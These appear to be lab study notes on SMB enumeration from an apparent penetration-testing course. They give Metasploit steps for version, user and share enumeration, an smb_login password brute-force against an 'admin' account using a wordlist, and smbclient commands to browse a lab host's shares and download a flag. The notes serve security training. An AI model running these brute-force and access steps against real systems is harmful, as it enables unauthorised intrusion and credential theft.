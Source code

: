 - SMB (Server Message Block) is a network sharing protocol that is used to facilitate the sharing of files and peripherals, like printers, between computers on a local network (LAN)
- Originally, on older version of Windows, SMB ran on top of NetBIOS using port tcp/139, and was available on both tcp/139 and tcp/445. However on newer version on Windows, SMB is usually found on port tcp/445.
- SAMBA is the Linux implementation of SMB, which allows Windows systems to access Linux shares and devices.
- We can utilize auxiliary modules to enumerate the SMB version, users, shares and perform a brute-force attack in order to identify users and passwords.
- SMB version enumeration is not only useful for service enumeration, but for host operating system enumeration as well.

Practical Demonstration
	- `service postgresql start`
	- `msfconsole`
	- `workspace -a smb_enum`
	- SMB version enumeration using Metasploit Framework
		- `setg RHOSTS demo.ine.local`
		- `search type:auxiliary name:smb`
		- `use auxiliary/scanner/smb/smb_version`
		- `options`
		- `run`
		- The output returned by the `smb_version` module may sometimes be wrong for the host OS, but the service version can be used to determine the host OS in such a scenario.
	- SMB users enumeration using Metasploit Framework
		- `search type:auxiliary name:smb`
		- `use auxiliary/scanner/smb/smb_enumusers`
		- `info`
		- `run`
	- SMB shares enumeration using Metasploit Framework
		- `search type:auxiliary name:smb`
		- `use auxiliary/scanner/smb/smb_enumshares`
		- `options`
		- `set ShowFiles true`
	- SMB credential brute-force using Metasploit Framework
		- `search type:auxiliary name:smb login`
		- `use auxiliary/scanner/smb/smb_login`
		- `options`
		- `set SMBUser admin`
		- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
		- `set STOP_ON_SUCCESS true`
	- Accessing SMB shares using smbclient
		- `smbclient -L \\\\192.91.46.3\\ -U admin`
		- `smbclient \\\\192.91.46.3\\public -U admin`
		- `ls`
		- `cd secret`
		- `get flag`